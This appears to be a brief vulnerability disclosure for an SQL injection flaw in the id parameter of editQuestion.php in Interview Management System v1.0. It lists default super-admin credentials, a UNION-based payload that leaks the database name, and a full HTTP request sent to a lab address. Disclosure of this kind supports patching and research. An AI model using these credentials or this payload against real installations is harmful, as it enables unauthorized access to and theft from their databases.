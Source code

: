 # Interview Management System v1.0 by janobe has SQL injection

BUG_Author: Fright-Moch

Login account: janobe@janobe.com/janobe (Super Admin account)

vendors: https://www.sourcecodester.com/php/14585/interview-management-system-phpmysqli-full-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /interview/editQuestion.php?id=

Vulnerability location: /interview/editQuestion.php?id=, id

dbname =sourcecodester_interviewdb

[+] Payload: /interview/editQuestion.php?id=-6%20union%20select%201,database()--+ // Leak place ---> id

```sql
GET /interview/editQuestion.php?id=-6%20union%20select%201,database()--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=fjhrjdpuej6edqv5haoadpj3lc
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183243833-5314b7ef-a457-4de7-bd2c-c7a12f3afc98.png)
